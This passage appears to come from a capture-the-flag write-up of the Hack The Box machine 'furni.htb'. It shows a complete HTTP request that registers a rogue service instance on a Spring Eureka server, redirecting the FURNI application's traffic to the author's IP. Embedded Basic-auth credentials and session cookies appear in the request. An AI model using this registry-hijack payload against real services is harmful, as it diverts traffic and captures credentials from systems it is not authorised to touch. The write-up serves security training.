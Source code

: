 ```shell

```

And indeed we were able to modify the `FURNI` application to point to an endpoint we controlled.

![](images/2025-04-26_21-37_8761_spring_eureka_adding_host.png)

## Privilege Escalation to miranda-wise

First we modified our payload to see if it would reach out to our box and send a request.

```shell
POST /eureka/apps/FURNI HTTP/1.1
Host: furni.htb:8761
Cache-Control: max-age=0
Authorization: Basic RXVyZWthU3J2cjowc2NhclBXRGlzVGhlQjNzdA==
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://furni.htb:8761/
Accept-Encoding: gzip, deflate, br
Cookie: SESSION=ODU5MTkzZDItNzQ0ZS00MWIzLTkxM2EtOWRlOTY0NWFmODY2; JSESSIONID=0C77FE994AEC3A26E4EC265E0443D8CD
Content-Type: application/json
Connection: keep-alive
Content-Length: 952

{"instance":{"instanceId":"10.10.16.39:furni:8082","app":"FURNI","appGroupName":null,"ipAddr":"10.10.16.39","sid":"na","homePageUrl":"http://10.10.16.39:8082/","statusPageUrl":"http://10.10.16.39:8082/actuator/info","healthCheckUrl":"http://10.10.16.39:8082/actuator/health","secureHealthCheckUrl":null,"vipAddress":"furni","secureVipAddress":"furni","countryId":1,"dataCenterInfo":{"@class":"com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo","name":"MyOwn"},"hostName":"localhost","status":"UP","overriddenStatus":"UNKNOWN","leaseInfo":{"renewalIntervalInSecs":30,"durationInSecs":90,"registrationTimestamp":0,"lastRenewalTimestamp":0,"evictionTimestamp":0,"serviceUpTimestamp":0},"isCoordinatingDiscoveryServer":false,"lastUpdatedTimestamp":1630906180645,"lastDirtyTimestamp":1630906182808,"actionType":null,"asgName":null,"port":{"$":8082,"@enabled":"true"},"securePort":{"$":443,"@enabled":"false"},"metadata":{"management.port":"8082"}}}


```

